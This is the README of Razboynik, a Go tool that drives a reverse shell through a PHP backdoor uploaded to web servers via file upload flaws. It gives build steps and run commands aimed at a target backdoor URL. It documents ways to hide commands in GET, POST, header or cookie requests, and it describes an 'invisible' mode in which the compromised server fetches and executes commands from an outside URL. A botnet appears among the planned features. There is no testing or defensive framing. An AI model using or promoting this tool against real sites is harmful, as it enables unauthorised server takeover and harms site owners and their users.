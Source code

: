 #Razboynik - разбойник
Razboynik is the FurezLegacy project on Go

##Main Goal ?
Razboynik wants to be the best reverse shell based on PHP backdoor

##FurezLegacy ?
FurezApi Framework was a little PHP website that exploit PHP backdoor.
It allow you to exploit file upload vulnerability on web server.
The main goal was pretty simple : Test every possibilities of infected files to upload, and then, if the upload is successful:

- giving you a user interface to manage datas
- allowing you to do what you want on server

Show the folder structure of the website ? Show a specific file ? Zip content ? Download content ? Upload or even delete ? If the API succeed to be upload on the server. You're the new king of this one!

##Why Razboynik ?
Where FurezApi Framework and later FurezExploit (C++ brother) were boring and long to setup and install, Razboynik learnt about those mistakes and fix it. 
Razboynik is giving you a better interface to handle the server (nothing better than shell). Easier to install, faster to use, better to customize and hot new functionnalities:
- Encoding all the request (Crypto on the way)
- Infected requests by GET, POST, Headers or Cookies
- Logs every result in file
- Better interface
- Easy to plug bundle and plugin thanks to modules
- Proxied tunnel (on the way)

##Binary
(Not available yet)

Binaries for differents platforms (Linux, Windows and soon or later Mac) will be available in the `./bin` directory. So if you don't want to build the application by yourself you can use it.

On Windows launch: `./bin/razboynik.exe`
On linux (in your terminal): (root directory) `./bin/razboynik`

##Build locally
###Requirements
These requirements are necessary only if you want to build the app:
- `Golang`

###Dependencies
These dependencies will be install:
- `eatbytes/razboy` (Business logic and core of razboynik)
- `urfave/cli` (Usefull utility to handle flag and parse command)
- `chzyer/readline` (Implementation of readline to loop on command)
- `fatih/color` (Great colors to push on terminal)
- `golang library` (fmt, strings, buffer, etc...)

###Installation
Instructions to build the app:
- `git clone https://github.com/EatBytes/razboynik.git` (or SSH if you want)
- `cd razboynik`
- `go get`
- `go build`

(Makefile on the way)

##Demo
(Video coming soon)

Let's suppose you find a file upload vulnerability in a website and you upload the script available in `res/backdoor` folder.
Now the url of your script could be (as example) : http://{website}/uploads/script.php

With this statement we can use razboynik as it follow :
- `./razboynik run -u http://{website}/uploads/script.php`
or (shortcut)
- `./razboynik r -u http://{website}/uploads/script.php`

If you want to change the parameter sent, add -p flag and precise it. Like : `./razboynik r -u ... -p myParameter`.
By default the parameter is "razboynik". Parameter is the name of the field or header or cookie (depends on method) sent to server. If the method is GET, razboynik will simply add at the end of the url = ?razboynik={request}.

If you want to change the method, add -m flag as : `./razboynik r -u ... -m POST`.
By default, method is set to GET. You have the choice between : GET, POST, HEADER (evil request will be set in headers), COOKIE.

For more option you can add -h flag. Or type `./razboynik help`.

##API
You will find the API of all the business logic in the appropriate repository `razboy`

###run
Run a reverse shell with specified configuration

OPTIONS: 
    - `-u, --url`: (string) Url of the target. Ex: -u http://localhost/script.php
    - `-m, --method`: (string) Method to use. Ex: -m POST (default: "GET")
    - `-p, --parameter`: (string) Parameter to use. Ex: -p test (default: "razboynik")
    - `-s, --shellmethod`: (int) Shellmethod to use. Ex: -s 0 (default: 0) [0 => system(), 1 => shell_exec()]
    - `-k, --key`: (string) Key to unlock optional small protecion. Ex: -k keytounlock (default: "FromRussiaWithLove<3")
    - `-r, --raw`: (bool) If set, send the request without base64 encoding
    - `-c, --crypt`: (Not available)

###generate
(Not available yet)

###scan
Scan a website to identify what shell method and method works on it.

OPTIONS:
    - `-u, --url`: (string) Url of the target. Ex: -u http://localhost/script.php
    - `-p, --parameter`: (string) Parameter to use. Ex: -p test (default: "razboynik")
    - `-k, --key`: (string) Key to unlock optional small protecion. Ex: -k keytounlock (default: "FromRussiaWithLove<3")

###invisible
Execute a raw command available at an url (referer). Ex: http://website/cmd.txt point to 'echo 1;' in body, then I can do : -u ... -r http://website/cmd.txt

OPTIONS:
    - `-u, --url`: (string) Url of the target. Ex: -u http://localhost/script.php
    - `-r, --referer`: (string) Url that the server will call to get the cmd to execute. Ex: -r http://website.com/cmd-i-want-to-execute.txt

###encode / decode
Encode or decode string.

Ex: encode hello => aGVsbG8=
    decode aGVsbG8= => hello

##Roadmap
###1.5.0
- Raw request
- Better error in razboy (core)
- Add more information when run fail
- Add cookie method
- Implement optional key protection
- Add base64 encoding and decoding to root
- Add invisible method

###1.6.0
- Add web server (FurezApi legacy)
- Add `./bin` folder with binaries
- More documentation
- Add asciinema video (in progress)
- Create a botnet ? Handle multiple server at the same time
- Config file
- Proxied tunnel
- Crypto
